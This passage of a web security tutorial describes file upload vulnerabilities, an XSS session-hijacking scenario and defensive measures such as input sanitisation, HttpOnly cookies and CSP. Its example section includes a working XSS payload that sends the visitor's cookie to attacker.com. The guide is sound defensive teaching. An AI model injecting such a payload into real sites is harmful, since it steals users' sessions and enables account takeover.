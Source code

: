 #### Defense:
- Enforce account lockout policies after repeated failed attempts.
- Use **CAPTCHAs** to prevent automated attacks.
- Encourage strong passwords and MFA.

---

### 9. File Upload Vulnerabilities

Websites allowing file uploads are vulnerable if files are not validated properly.

#### Attack Flow:
1. The attacker uploads a malicious file (e.g., a PHP script disguised as an image).
2. If the server executes the file, it leads to remote code execution.

#### Defense:
- Validate file extensions and MIME types.
- Store uploaded files outside the web root.
- Limit file size and scan uploads for malicious content.

---

## Real-Time Attack Example: XSS Leading to Session Hijacking

#### Scenario:
1. The attacker finds an XSS vulnerability in a website’s comment section.
2. They inject this script:
   ```html
   <script>document.location='http://attacker.com?cookie=' + document.cookie</script>
   ```
3. A user visits the website, and the script sends their session cookie to the attacker’s server.
4. The attacker uses the cookie to impersonate the user and perform malicious actions.

#### Prevention:
- Sanitize all user input.
- Use **HttpOnly** and **Secure** cookies.
- Implement **Content Security Policy (CSP)** to prevent script execution.

---

## Defensive Measures for Websites

1. **Secure Coding Practices**:
   - Validate and sanitize all inputs.
   - Apply the **principle of least privilege** to permissions.
   - Conduct regular code audits and penetration testing.

2. **Encryption**:
   - Enforce HTTPS for all communication.
   - Encrypt sensitive data in transit and at rest.
